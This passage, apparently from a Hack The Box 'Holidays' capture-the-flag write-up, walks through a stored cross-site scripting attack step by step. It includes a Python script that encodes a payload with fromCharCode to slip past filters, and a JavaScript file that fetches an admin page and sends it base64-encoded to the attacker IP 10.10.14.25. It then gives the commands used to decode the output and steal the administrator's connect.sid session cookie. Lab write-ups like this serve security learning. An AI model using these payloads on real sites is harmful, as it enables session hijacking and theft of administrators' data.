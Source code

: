 {% highlight JavaScript linenos %}
<img src="x/><script>eval(String.fromCharCode([payload]));</script>">
{% endhighlight %}

Representing JavaScript with character codes can be automated in Python, as shown below. To make things easy, we use a payload which requests a JavaScript file from a remote host which it then executes. We save this file with the name "generateEvilNote.py" for later use. Note that the IP `10.10.14.25` is the IP of the attacking computer and might thus be different depending on your VPN connection.

{% highlight Python linenos %}
payload = """document.write('<script src="http://10.10.14.25/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
print('<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">')
{% endhighlight %}

Next, we put the JavaScript below in a file named "x.js". This code requests a specific booking page, encodes the response with base64 and then sends us the base64 encoded response. The idea is to retreive a specific booking page in the context of the administrator, since the page might include interesting session specific content. Note that the IP `10.10.14.25` has to be changed to your IP over the VPN connection for the script to be successful.

{% highlight JavaScript linenos %}
req1 = new XMLHttpRequest();
req1.open("GET","http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65",false);
req1.send();
req2 = new XMLHttpRequest();
req2.open("GET","http://10.10.14.25/leak?x="+btoa(req1.responseText),false);
req2.send();
{% endhighlight %}

The next step is to start a web server by executing 
`sudo python3 -m http.server 80` in the directory where the `x.js` file is located. Thereafter, we generate the payload by executing `python3 generateEvilNote.py`, submit it as a note and wait for less than a minute. After waiting for a bit, the web server receives a request for the `x.js` file and a subsequent request which leaks the base64 encoded response. 

We can then proceed to copy the base64 encoded content from the web server output and putting it in a file named "x.b64". Then, we simply execute the command `cat x.b64 | base64 -d`, retrieve the cookie named "connect.sid" from the output of the command, place it in our browser session and navigate to `http://10.10.10.25:8000/admin`. At this point, we have hijacked the administrators session and navigating to the URL thus leads us to the page shown below. 

![export](/assets/2021-10-30-HTB-Holidays-Source-Code-Analysis/export.png)
